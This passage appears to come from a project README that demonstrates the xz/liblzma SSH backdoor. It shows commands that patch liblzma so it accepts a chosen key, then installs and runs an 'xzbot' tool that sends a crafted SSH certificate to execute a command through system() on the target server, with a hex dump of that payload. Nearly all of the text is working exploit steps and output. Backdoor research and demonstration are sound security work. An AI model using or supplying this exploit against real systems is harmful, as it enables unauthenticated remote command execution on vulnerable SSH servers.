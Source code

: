 ```shell
Processing triggers for man-db (2.11.2-2) ...
Processing triggers for libc-bin (2.36-9+deb12u6) ...
```

### patch liblzma\.so

```shell
$ pip install pwntools
$ shasum -a 256 liblzma.so.5.6.1
605861f833fc181c7cdcabd5577ddb8989bea332648a8f498b4eef89b8f85ad4  liblzma.so.5.6.1
$ python3 patch.py /usr/lib/x86_64-linux-gnu/liblzma.so.5.6.1
Patching func at offset: 0x24470
Generated patched so: liblzma.so.5.6.1.patch
$ cp /usr/lib/x86_64-linux-gnu/liblzma.so.5.6.1 /usr/lib/x86_64-linux-gnu/liblzma.so.5.6.1.ori
$ cp /usr/lib/x86_64-linux-gnu/liblzma.so.5.6.1.patch /usr/lib/x86_64-linux-gnu/liblzma.so.5.6.1
```

### backdoor demo

```shell
$ go install github.com/amlweems/xzbot@latest
```

```shell
$ xzbot -h
Usage of xzbot:
  -addr string
        ssh server address (default "127.0.0.1:2222")
  -seed string
        ed448 seed, must match xz backdoor key (default "0")
  -cmd string
        command to run via system() (default "id > /tmp/.xz")
```

```shell
$ xzbot -addr 127.0.0.1:22 -cmd 'id > /tmp/.xz'
00000000  00 00 00 1c 73 73 68 2d  72 73 61 2d 63 65 72 74  |....ssh-rsa-cert|
00000010  2d 76 30 31 40 6f 70 65  6e 73 73 68 2e 63 6f 6d  |-v01@openssh.com|
00000020  00 00 00 00 00 00 00 03  01 00 01 00 00 01 01 01  |................|
00000030  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000040  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000050  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000060  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000070  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000080  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000090  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000a0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000b0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000c0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000d0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000e0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000f0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000100  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000110  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000120  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000130  00 00 00 00 00 00 00 00  00 00 00 01 00 00 00 00  |................|
00000140  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000150  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000160  00 00 01 14 00 00 00 07  73 73 68 2d 72 73 61 00  |........ssh-rsa.|
00000170  00 00 01 01 00 00 01 00  34 12 00 00 78 56 00 00  |........4...xV..|
00000180  a2 ff d9 f9 ff ff ff ff  ee 07 97 d2 f3 7b 74 d0  |.............{t.|
00000190  77 0e ac cd 7d 9f 9d 20  66 18 6f b4 63 92 1e 08  |w...}.. f.o.c...|
000001a0  01 99 59 55 5c e2 1c 2c  48 6e aa 90 f6 4c 38 4c  |..YU\..,Hn...L8L|
000001b0  df 97 38 87 d3 b9 f9 e5  c0 c9 6e ed 79 a2 b0 e1  |..8.......n.y...|
000001c0  38 81 22 08 17 b1 46 ba  4f 2a 34 98 a2 04 53 7f  |8."...F.O*4...S.|
000001d0  87 3b f2 02 ba e9 e9 16  bd 12 34 4d 3a 1b ae dc  |.;........4M:...|
```